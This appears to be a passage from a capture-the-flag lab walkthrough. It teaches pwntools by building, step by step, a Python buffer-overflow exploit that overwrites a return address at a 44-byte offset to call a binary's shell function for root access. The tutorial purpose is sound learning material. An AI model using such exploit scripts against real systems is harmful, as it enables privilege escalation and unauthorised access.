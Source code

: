 Pwntools is a python library dedicated to making everything we just did in the last task much simpler. However, since it is a library, it requires python knowledge to use to it's full potential, and as such everything in this task will be done using a python script.

We start off the script with:  

```
from pwn import *   proc = process('/opt/secret/root')
```

This imports all the utilities from the pwntools library so we can use them in our script, and then creates a process that we can interact with using pwntools functions.

We know that we need the memory address of the shell function, and pwntools provides a way to obtain that with ELF().

ELF allows us to get various memory addresses of important points in our binary, including the memory address of the shell function.

With the ELF addition our script becomes

```
from pwn import *   proc = process('/opt/secret/root')   elf = ELF('/opt/secret/root')   shell_func = elf.symbols.shell
```  

shell_func holds the memory address of our shell function. Now we need a way to form the payload, luckily pwntools has that to with fit().

fit allows us to form a payload by combining characters and our memory address. To send the payload we can use a method in our `proc` variable, proc.sendline(), which just sends whatever data we want to the binary. Finally we can use proc.interactive(), to view the full output of the process.

With all that our final exploit script becomes  

```
from pwn import *   proc = process('/opt/secret/root')   elf = ELF('/opt/secret/root')   shell_func = elf.symbols.shell   payload = fit({   44: shell_func # this adds the value of shell_func after 44 characters   })   proc.sendline(payload)   proc.interactive()
```

Save that to a .py file and run it, and you should get this output:

![](https://imgur.com/8tr5vl5.jpg)  

We did it again!  

Answer the questions below

Even more woohoo!